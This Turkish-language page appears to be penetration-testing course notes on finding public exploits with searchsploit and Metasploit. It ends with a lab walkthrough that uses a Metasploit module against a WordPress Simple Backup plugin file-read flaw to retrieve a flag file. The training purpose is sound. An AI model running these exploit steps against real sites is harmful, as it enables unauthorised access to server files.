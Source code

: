 ```yaml
---
glightbox: true
icon: material/help
---
```


# Public Exploits

## Finding Public Exploits

Güvenlik açıklarını aramak için `searchsploit` isimli aracı (Ubuntu için mevcut olmayabilir) kullanabiliriz.

Aracı yükle:

```bash
sudo apt install -y exploitdb
```

Örnek bir arama gerçekleştir:

```bash
searchsploit openssh 7.2
```

## Metasploit Primer

MSF (Metasploit Framework), sızma testi için kullanılabilecek faydalı araçlardan birisidir. Birçok güvenlik açığına yönelik yerleşik istismarlar içerir. Araca ait bazı özellikler aşağıda verilmiştir:

* Hedefi gerçekten tehlikeye atmadan bir güvenlik açığının varlığını test etmek için doğrulama komut dosyaları içerir.
* Uzak bilgisayarları numaralandırmak için keşif komut dosyaları çalıştırabilir.
* Shell bağlantısı ve güvenliği ihlal edilmiş hedefler üzerinde komutlar çalıştırmak için kullanılan Meterpreter isimli aracı içerir.
* Birçok post-exploitation ve pivoting aracı içerir.

MSF aşağıdaki komut ile sisteme yüklenebilir:

```bash
sudo apt install -y metasploit-framework
```

Aşağıda Msfconsole aracı için bazı kullanım örnekleri verilmiştir:

| Command | Description |
|---|---|
| `msfconsole` | Konsol başlatılır. |
| `search` | Çeşitli aramalar gerçekleştirilir. |
| `help search` | Arama özelliği ile ilgili yardım görüntülenir. |
| `use` | Verilen bir modül kullanılır. |
| `show options` | Modül seçenekleri görüntülenir. |
| `set` | Modül seçenekleri ayarlanır. |
| `check` | Hedefin savunmasız olup olmadığı kontrol edilir. |
| `exploit` | Exploit başlatılır. |
| `exit` | Konsol kapatılır. |

## Questions

```text
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```

??? tip "Steps"

    Soruda verilen hedef makine adresini tarayıcı arama çubuğuna gir ve adrese git.

    Açılan sayfada `Simple Backup Plugin 2.7.10 for WordPress` başlığına vurgu yapıldığını görebilirsin. Ardından Msfconsole içinde aşağıdaki aramayı gerçekleştir:

    ```text
    search wordpress backup
    ```

    Çıkan sonuçlardan Simple Backup ile ilgili olan [modülü](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/) kullan. Bu modül sayesinde dosyalar web sunucusu ayrıcalıklarıyla okunabilir:

    ```text
    use auxiliary/scanner/http/wp_simple_backup_file_read
    ```

    Modüle ait seçenekleri `show options` ile görüntüledikten sonra gerekli seçenekler ayarlanmalıdır. Soruda kök dizin (`/`) altındaki `flag.txt` dosyasının içeriğine ulaşmamız istendiğinden `FILEPATH` seçeneğinin değeri sadece `flag.txt` olarak ayarlanmalıdır:

    ```text
    set FILEPATH flag.txt
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 94.237.49.11
    ```

    RPORT değerini ayarla:

    ```text
    set RPORT 49656
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Modül yürütmesi tamamlandıktan sonra `flag.txt` dosyası çıktıda belirtilen konuma kaydedilecektir. Konsolu kapattıktan sonra bu dosyanın içeriğini görüntüle:

    ```bash
    cat /home/user/.msf4/loot/20231103053630_default_94.237.49.11_simplebackup.tra_535374.txt
    ```
